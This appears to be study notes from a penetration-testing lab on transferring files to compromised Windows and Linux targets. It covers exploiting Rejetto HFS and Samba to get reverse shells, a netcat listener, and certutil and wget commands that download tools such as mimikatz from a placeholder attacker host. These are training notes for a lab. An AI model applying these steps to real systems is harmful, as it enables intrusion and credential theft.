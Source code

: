 Transferring files to a target system

- After obtaining initial access to a target system, you will need to transfer files to the target system
- In some cases, you will have to access to the target system via a Meterpreter session, and as a result, you will need to use the inbuilt OS specific utilities to facilitate the transfer of files from your system to the target system
- This process utilizes a two step approach, where you will need to host the files you want to transfer on a webserver and download the files hosted on the web server to the target system
- Python comes with a built in module known as SimpleHTTPServer (python2) and http.server (python3), that can be used to facilitate a Simple HTTP Server that gives you standard GET and HEAD request handlers
- This module can be used to host files in any directory of your system. And can be implemented through a single command in your terminal

python 2  : `python -m SimpleHTTPServer <port>`
python 3 : `python3 -m http.server <port>`

Transferring files to a Windows target is a lab environment the steps are as follows: 

- It is a GUI based lab so we get the target IP on desktop itself.
- On running a default service nmap scan we get it is running a File server on port 80
- Searchsploit rejettto and download the exploit Rejetto HTTP File Server (HFS) 2.3.x Remote code execution (2) - 39161.py ; searchsploit -m 39161.py
- Now in the exploit code change the host IP and port also in the EDB notes it was mentioned that we need to be hosting the nc.exe on port 80 for the successful execution of the exploit so we will be doing that specifically using the python or python3
- setup a nc listener using the command `nc -nlvp <port>` and new terminal tab to run python server
- Running exploit `python <file.py> <target-ip> port` might need to run the command multiple times to get the reverse shell
- Once we obtained the reverse shell lets say we want to download mimikatz on target system
- As it is a default hfs shell we go to the root and then the Temp directory
- In attacker machine host a simple server again with mimikatz
- Using certutil we can download the file and the command for that is `certutil -urlcache -f http://<attack-ip>:<port>/file.p -o <savefilename>`
- From here on we run the commands that we discussed in mimikatz section refer that lab environment.

Transferring files to a Linux target system:

- This a terminal based lab environment and the target IP address is adjacent to your IP address so check the IP and run the service detection scan with the NMAP
- We can see that it is running Samba service running so we will check the exploits available for the version 3.x - 4.x 
- we can use tmux as we might need multiple sessions of terminal `ctrl+b+c` to create and `ctrl+b+<no of the session>`
- using metasploit use exploit/linux/samba/is_known_pipename set the options and run the module
- We get a basic terminal and we will route to the `/bin/bash -i`
- Similar to that of the windows we need to download the files to the temp directory in the Linux target system as well incase if you are not in the temp directory navigate your session to the temp directory
- In attacker machine launch the python server either python 3 or python 2 based on the availability
- In target system we can use wget `wget http://<attacker-ip>:<port>/<file>`